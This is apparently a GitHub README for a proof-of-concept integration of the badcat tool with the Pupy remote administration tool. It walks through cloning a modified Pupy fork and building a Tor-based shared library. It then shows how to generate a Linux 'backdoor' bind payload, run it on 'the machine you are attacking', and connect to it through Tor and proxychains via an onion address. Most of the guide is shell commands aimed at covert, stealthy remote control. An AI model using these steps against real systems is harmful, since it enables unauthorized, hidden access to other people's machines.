 # Pupy

Badcat is a reasonably good tool, but one generally needs to perform many actions through a backdoor, then using badcat as-is will eventually get you into issues. For instance, one needs to perform an upload or download of files, badcat can't help you with that.

I decided to integrate badcat functionality with some existing RAT (Remote Administration Tool).

I chose pupy, among other reasons, because I failed to make it work with others (Poshc2) and because it seemed to fit better than the alternatives, like good coding design, modularity, awesome hidding techniques - something badcat lacks.

# Common Concerns

_What works for now?_

**R: Linux only. Every RPC related stuff from Pupy works out of the box. Pupy process hidding is broken for now, so when you run the program it keeps in the foreground - this details matters when you want to be stealth, but for now just ignore it.**

_Will it work on my machine?_

**R: Probably not, unless you have docker or podman. For a bunch of reasons I will ignore here, it just works in a specific environment. Thus the POC status. So if one wants to run it, the environment must be prepared.**

_I don't care about how everything works, can't I just test it out?_

**R: Of course you can. Follow this [steps](). Although I always recommend to take a look to understand what is going on under the hood.**

_Will badcat work with any other RAT?_

**R: Probably, yes. By now it would require advanced skills and lots of time for debugging, as it was to integrate with Pupy. To measure, it took me around a month for a proof of concept.**

_Now, will badcat support any other RAT?_

**R: Probably, not. I'll try my best to fully support at least one RAT of my choice, for now Pupy. If one wants support for other RATs, one should either ask support from RAT's developers or try to write the integration code by your own. The whole community would thank you for that.**

_I hate your integration design choices, can I help you?_

**R: Why haven't you told me before? Of course you can. Fill up an Issue or send a Pull Request. I'm terrible at coding and do not know how it worked, it just works.**

# Integration

## Steps

### 1. Clone Pupy

The official Pupy project can not run badcat without modification in the Linux client source code. So I fork the official project and make the necessary changes. My fork is [here](https://github.com/yanmarques/pupy), I recommend you to check the latest commits to see what are such modifications.

That being said, clone the project recursively (as stated [here](https://github.com/n1nj4sec/pupy/wiki/Installation#pupy-setup)).

```bash
git clone --recursive https://github.com/yanmarques/pupy.git
```

### 2. Build The Container Image

Unfortunately, again, the official Pupy container image has a different `libc` version than the machine I used to build badcat integration code. Either I build badcat integration code in another machine or container, or re-create Pupy official container with the required `libc` version. I chose the later because I would have more control over the environment.

Then, build the image from my Dockerfile:

```bash
cd ./pupy/
docker build -t pupy-local -f ./client/Dockerfile . 
```

### 3. Install Pupy Python 2.7 Deps

Pupy relies on Python 2.7 yet, so one must have such package installed. In order to install dependencies, ensure Pip is installed for your Python 2.7. One can install Pip with:

```bash
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
```

Then install `swig`, required to build some Python dependency:

```bash
dnf install -y swig
```

Finally install Python dependencies:

```bash
cd ./pupy/pupy
python2 -m pip install -r requirements.txt
```

### 4. Build Badcat's Pupy Integration

First, follow badcat toolchain installation [here](https://github.com/yanmarques/badcat/tree/dev#getting-started) if you have not installed before. Then make sure you are at the `dev` branch and fully updated:

```bash
git checkout dev
git pull
```

Before building the integration code, think about your objectives. By default (at [this](https://github.com/yanmarques/badcat/blob/a5d245054f03b27a31096a08665b6d0a87f34d65/test-pupy/src/lib.rs#L98) line of code), badcat integration will start Tor with Tor's default `DataDirectory` and the `HiddenServiceDir` set to `hidden-service` directory. Modify the parameters to fit your desires.

Then build it:

```bash
cargo build --release -p test-pupy
```

An Elf shared library will be generated `./target/release/libbadcat_pupy.so`, like the following:

```bash
$ file ./target/release/libbadcat_pupy.so 
./target/release/libbadcat_pupy.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=44e952dde4ea235d5683a8289ef4d39da0097e5c, with debug_info, not stripped
```

This Elf shared library file is extremely important, it holds Tor and badcat code. Such file must be copied to two places:
    1. The directory where Pupy will be built. As you may already know, Pupy first build the executable (elf, exe, apk, etc) with a dummy string to be replaced with actual Python code later. This such build will our next step.
    2. Where you will run the resulting executable. As you may already know, the executable needs the shared library to run, remember this is a POC, ideally it should not need to carry the shared library to everywhere you need to run.

Sooo, copy `libbadcat_pupy.so` shared library to `pupy/client/sources-linux`.

### 5. Build Pupy Linux Executable

In order to generate the required executables, change your current working directory to the top level directory of Pupy project (`pupy`). Then run (if you use docker, just replace `podman` with `docker`):

```bash
podman run --mount type=bind,src=$(pwd),target=/build/workspace/project pupy-local ./client/sources-linux/build-docker.sh
```

It take some time to finish, but as soon as it has finished, one should see a `[+] Build complete` message.

### 6. Build the Pupy Payload

In order to generate the resulting executable with the payload, change your current working directory to the pupy source (`pupy/pupy`). Then you must fix the payload template name because it misses a `x64`. To fix it, just run:

```bash
cp ./payload_templates/pupy.lin ./payload_templates/pupyx64.lin
```

Now, enter Pupy shell:

```bash
python2 pupysh.py
```

You should see something like this:

![Pupy shell screenshot](https://user-images.githubusercontent.com/28604565/148851208-0213fd43-550d-44c9-86ba-f54d3ed174c4.png)

Finally, build the payload:

```bash
>> gen -O linux -A x64 -o backdoor bind --port 8000 -t badcat
```

The resulting executable is at `./pupy/pupy/backdoor`. To fully test Pupy with badcat functionality, you need this `backdoor` executable, the integration shared library and Pupy shell of course.

### 7. Start a Pupy Session with badcat

First things first, prepare the machine you are attacking. This machine must have some weird libraries installed, with boring versions. So the best way I found was to use the container image, that created early under the name of `pupy-local`, derived from a Dockerfile I wrote myself.

I started a container with an interactive shell and a mount for accessing the executable (`backdoor`) and the integration shared library (`libbadcat_pupy.so`) using the following command:

```bash
podman run --mount type=bind,src=$(pwd),target=/project -it pupy-local bash
```

Inside the container access the directory with both files. Then run the executable providing the directory where the shared library is located, so it is find in runtime. In my case, the shared library was in the same directory, so a dot (`.`) is used there.

```bash
LD_LIBRARY_PATH=. ./backdoor
```

Once the server is up and running, you need to connect through Tor using Pupy. In order to discover the generate Onion Service hostname, check on your current working directory the contents of the file at `hidden-service/hostname`. For instance, my server was:

```bash
$ cat ./hidden-service/hostname
ithahibo6xgtlieneq5suimjxynpmjbircpf3q54ier5fkfpwiffvxyd.onion
```

The next step is to connect to server using Pupy. First exit the Pupy shell if you are already in. Then install `tor` and `proxychains` if do not have them already. The idea is to have Tor client running and use `proxychains` to force all Pupy shell connections to travel Tor proxy. If you are not certain of how to configure Tor and `proxychains`, check [this](https://itigic.com/use-proxychains-and-tor-on-linux-to-be-anonymous/) article.

Once Tor is running and `proxychains` is configure to use Tor Socks proxy, start Pupy shell and connect to your Onion Service:

```bash
proxychains python2 pupysh.py
>> connect -c ithahibo6xgtlieneq5suimjxynpmjbircpf3q54ier5fkfpwiffvxyd.onion:8000 -t tcp_cleartext
```

Now be patient! 

Generally it take around a minute to start a full session, it depends on your connection, Tor's network latency at the moment and so on. For me it has already took more than five minutes to start a full session. So again, be patient.

Once the full session has started, one may see the following:

![Pupy shell connection from badcat integration](https://user-images.githubusercontent.com/28604565/148860949-71ab11ee-3d91-4342-82c6-ac96d5d75077.png)

